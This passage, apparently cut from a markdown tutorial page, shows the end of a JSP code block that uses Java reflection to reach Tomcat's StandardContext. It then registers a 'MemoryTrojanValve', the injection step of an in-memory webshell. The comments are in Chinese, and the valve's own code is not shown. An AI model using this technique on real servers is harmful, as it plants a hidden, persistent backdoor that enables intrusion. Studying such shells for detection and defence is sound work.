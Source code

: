         ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
        // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
    
        // 2. 获取到 StandardContext（Container），然后添加阀门
        standardContext.addValve(new MemoryTrojanValve());
    %>
    </body>
    </html>
    ```

    
